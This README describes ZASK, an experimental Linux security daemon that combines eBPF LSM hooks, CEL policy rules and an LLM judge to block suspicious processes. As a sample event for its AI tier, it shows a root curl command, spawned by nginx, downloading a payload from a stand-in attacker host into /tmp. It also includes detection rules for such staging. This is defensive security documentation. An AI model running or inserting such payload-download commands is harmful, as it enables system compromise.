

# ZASK — Zero-trust AI-Secured Kernel

Autonomous Linux Kernel Hardening via eBPF LSM and AI.

**ZASK (Zero-trust AI-Secured Kernel)** is an autonomous security engine that evaluates and blocks Linux processes using raw eBPF LSM telemetry, a deterministic engine, and a semantic AI-based judgement.

Most security tools detect threats syntactically — matching signatures, hashes, or known-bad patterns. ZASK asks a different question: can Linux kernel-level security enforcement be made semantic? This is that attempt. 

> ⚠️ ZASK is still experimental, not yet a production-ready EDR. The ONNX tier is planned but not yet implemented. Feedback on the architecture, threat model, or approach is very welcome — open an issue or reach out directly.

## Tech Stack

`Go` · `C` · `eBPF/CO-RE` · `cilium/ebpf` · `CEL` ·

## Quick Links

- **[Setup & Installation](./docs/01-setup/README.md)**
- **[Configuration Guide](./docs/02-configuration/README.md)**
- **[Architecture & Design](./docs/03-architecture/architecture.md)**
- **[Development](./docs/04-development/README.md)**

## How It Works

| Tier | Layer | Mechanism | Latency | Purpose |
|------|-------|-----------|---------|---------|
| **1** | Kernel | eBPF LSM + Inode Map | < 1μs | Instant blocking based on known bad inodes |
| **2** | User-space | Deterministic Engine | < 10ms | Common Expression Language (CEL) policy matching |
| **3** | User-space | Fast Classifier | < 50ms | Local ONNX machine learning model triage |
| **4** | User-space/remote | LLM Semantic Judge | 5-10s | Gen AI reasoning on process intent for ambiguous cases |

This is a simplified overview of the architecture:


ZASK operates a multi-tiered enforcement model inspired by Daniel Kahneman's Thinking, *Fast and Slow*, System 1 (fast, intuitive) and System 2 (slow, deliberative, logical). 

- **1. The Kernel Telemetry:** The kernel provides the raw behavioral facts (syscall sequences, inodes, arguments) through eBPF LSM hooks.
- **2. Deterministic Engine:** A Go engine evaluates known bad patterns and enforces simple rules with minimal latency. When a process matches a known bad inode or a CEL policy rule, it is blocked immediately without further analysis. If no deterministic rule matches, the event can be escalated to the AI tiers.
- **3. The Fast Path (System 1 - ONNX) [planned]:** Telemetry is evaluated by an embedded, ultra-fast ONNX Machine Learning model. Clear threats are handled in milliseconds.
- **4. The Deep Arbiter (System 2 - LLM):** When the ONNX model confidence falls into the "gray zone," ZASK seamlessly escalates the case to the LLM-as-a-Judge. The LLM performs semantic reasoning on the exploit pattern to issue a final verdict (Block vs. Allow).
- **5. The Alerting:** Asynchronously, ZASK can be configured to emit events for all executions, regardless of verdict, to a variety of outputs (JSON, Parquet, text) for security information and event management (SIEM).


## Core Capabilities

Why ZASK? The following section lists the design principles & capabilities:


### Kernel-level Enforcement

Using eBPF LSM hooks, ZASK operates at the kernel level, allowing it to block malicious processes before they can execute harmful actions. 

This technique allows ZASK to work across all Linux distributions, as long as the kernel supports eBPF and LSM.

### AI-Powered Triage

The unique value proposition of ZASK is the integration of AI into the kernel-level security stack. By escalating ambiguous cases to an LLM, ZASK can potentially identify novel attack patterns that deterministic rules would miss. For example, while a standard rule engine might miss a heavily obfuscated base64 payload piped into bash, the LLM tier can decode and semantically understand the script's intent.

The events sent to the LLM include comprehensive context for analysis:

```
User: root (UID 0)
Command: /usr/bin/curl -o /tmp/payload https://evil.example.com/shell
Parent: nginx
Parent Command: /usr/sbin/nginx -g daemon off;
Service: /system.slice/nginx.service
```

### Enforcement Switch

ZASK can operate in two modes:
- **Lockdown** (default) — enforces verdicts by killing processes and updating the kernel block map.
- **Monitor** — evaluates all tiers and emits audit events but never enforces, useful for dry-run.

### Expressive Rule Engine

The deterministic rule engine supports [CEL (Common Expression Language)](https://github.com/google/cel-go) expressions that can combine multiple event attributes. This allows for more expressive rules. For example,

```yaml
- name: allow-system-binaries
  condition: 'argv.startsWith("/usr/bin/") || argv.startsWith("/usr/sbin/")'
  action: ALLOW
  severity: info
```

Rules are aware of script interpreters (configurable list), a common evasion technique. When an interpreter executes a script, ZASK captures the script path from arguments. This allows more complex rules and AI models should be able to reason about the whole semantic being executed, not just the interpreter. For example, the following rule blocks any script executed by root that resides in `/tmp`, a common staging area for attacks:

```yaml
- name: tmp-root-script
  condition: 'script_path.startsWith("/tmp/") && uid == 0'
  action: BLOCK
  severity: critical
```

### AI Resilience & Fail-Safe Defaults

ZASK treats AI availability as an operational concern, not a hard dependency. If the AI provider is slow, unreachable, or overwhelmed:

- **Circuit breaker** — automatically opens after repeated failures, preventing request pile-ups. Transitions through half-open probing back to closed when the provider recovers. ZASK uses the [sony/gobreaker](https://github.com/sony/gobreaker/) library for this pattern.
- **Fail-open default** — when the circuit is open, the AI queue is full, or the per-second rate limit is exceeded, events default to `ALLOW` with a logged warning. Executions are never silently dropped and the daemon keeps running normally.
- **Retry with exponential backoff** — transient 5xx errors are retried before the circuit breaker records a failure.

This ensures the daemon remains operational and predictable in production even without AI connectivity.

### Cloud-native

ZASK is built to feel immediately familiar to anyone who operates Kubernetes clusters:
- Configuration is driven entirely by a YAML file (hot-reloaded on change), which can be served to the daemon via a `ConfigMap` and credentials in a `Secret`. 
- The daemon exposes standard Kubernetes probe endpoints — `GET /healthz` (liveness) and `GET /readyz` (readiness, depends on eBPF load and ring buffer active)
- A Prometheus `/metrics` endpoint exposes functional metrics for standard scraping *(planned)*
- Operationally, ZASK runs as a **DaemonSet** — one pod per node — relying on the fact that all containers on a node share the host kernel. 

### Multi-Format Audit Logging

The goal of ZASK is to integrate into a cluster-wide logging pipeline (e.g., Fluent Bit). Security events are written to one or more audit outputs simultaneously:

- **JSON** (NDJSON) — for log pipelines and SIEM ingestion
- **Parquet** — columnar format for effective storage and retrieval *(planned)*
- **Text** — human-readable console output *(planned)*


### Daemon Self-Protection

ZASK deamon has a self-protection mechanism that blocks `SIGKILL` and `SIGTERM` from external processes to prevent attackers from terminating it. This can be disabled in the configuration if needed for debugging or development.
 

## Development

> **Warning:** ZASK interacts directly with the Linux kernel via eBPF LSM hooks. A bug or misconfiguration could cause serious system instability. For development, the recommended approach is to use a dedicated Linux VM. 

The maintainer development environment is macOS + [Lima based](https://lima-vm.io/) VM. Compiling target and running the deamon must be done inside Linux. All `vm-*` targets use `limactl shell` locally and are run from the macOS host. 

| Command | Where | What |
|---------|-------|------|
| `make generate` | Linux | Compile eBPF C → Go bindings via `bpf2go` |
| `sudo ./zaskd` | Linux | Load eBPF programs into the kernel |
| `make build` | Both | Compile the `zaskd` Go binary |
| `make lint` | Both | Run `golangci-lint` |
| `make test` | Both | Run `go test ./...` |
| `make vm-build` | macOS | Copy → generate eBPF → build → sync back |
| `make vm-run` | macOS | Start the daemon inside the VM |
| `make vm-test` | macOS | Run kernel-level integration tests |


See the full [Lima Development Guide](./docs/04-development/lima-dev-guide.md) for VM setup, VS Code Remote-SSH, and troubleshooting.


## Documentation

The documentation is split in the following sections:
- The [setup section](./docs/01-setup/README.md) covers the Linux kernel requirements, environment checks, and installation instructions to get ZASK up and running.
- The [configuration section](./docs/02-configuration/README.md) details the configuration options for ZASK, including general settings, deterministic rules, AI integration, and observability features. 
- The [architecture section](./docs/03-architecture/README.md) dives into the internal design and implementation details of ZASK.
- The [development section](./docs/04-development/README.md) provides instructions for setting up a development environment, building the project, and running tests.


## Challenges and Open Design Questions

- **Will two AI tiers catch novel threats?** The AI integration is the most unique aspect of ZASK. Many base64-encoded attacks and anomalous parent-child relationships (e.g., `curl` spawned by `nginx`) should be caught by the LLM tier. 
- **ONNX training data sourcing.** The ML model requires representative datasets of malicious and benign execution patterns. Where to source this data? Will schema changes (e.g., adding new fields to the event struct) require retraining? *Suggestion: use the NDJSON audit logs from monitor-mode deployments as a labeling pipeline — human analysts tag verdicts, which feed back into training.*
- **The `AI_QUEUE` execution window.** When an event is escalated to the LLM, the process continues running while the AI deliberates. Can an attacker exploit this window? *Mitigation: the ONNX fast path should shrink the window to near-zero for known patterns. Subsequent attempts are blocked at the kernel level.*

### Roadmap

| Feature | Purpose | 
|---------|---------|
| Unified observability config | Merge `audit` + `logging` under a single `observability` section |
| Default action config | Configurable fallback action (`AI_QUEUE` / `ALLOW`) when no rule matches |
| Prometheus `/metrics` | Queue depth, circuit breaker state, verdict counters |
| Parquet columnar export | Efficient storage and analytics for audit events |
| Helm chart | One-command DaemonSet deployment on Kubernetes |
| ONNX local inference tier | Sub-50ms ML classification for common patterns |


## License and Contributing

ZASK is open-source software licensed under Apache 2.0 License.

Contributions and ideas are welcome! 
